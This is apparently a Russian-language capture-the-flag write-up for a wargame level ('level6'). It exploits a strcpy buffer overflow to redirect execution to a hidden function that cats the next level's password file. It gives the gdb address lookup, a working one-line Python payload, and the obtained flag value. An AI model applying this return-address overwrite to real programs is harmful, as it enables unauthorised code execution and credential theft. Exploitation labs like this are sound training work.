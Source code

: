 
# Вызов 'strcpy' уязвим для переполнения буфера
```
=> 0x80484c5 <main+73>:	call   0x8048340 <strcpy@plt>
```
# Есть функция 'n', которая вызывает 'system("/bin/cat /home/user/level7/.pass")'
# Но она не вызывается

# Сначала нам нужно найти адрес функции 'n'
```
gdb> x n
0x8048454 <n>:	0x83e58955
```
# потом готовим payload
./level6 $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
>f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

# ╮(￣_￣)╭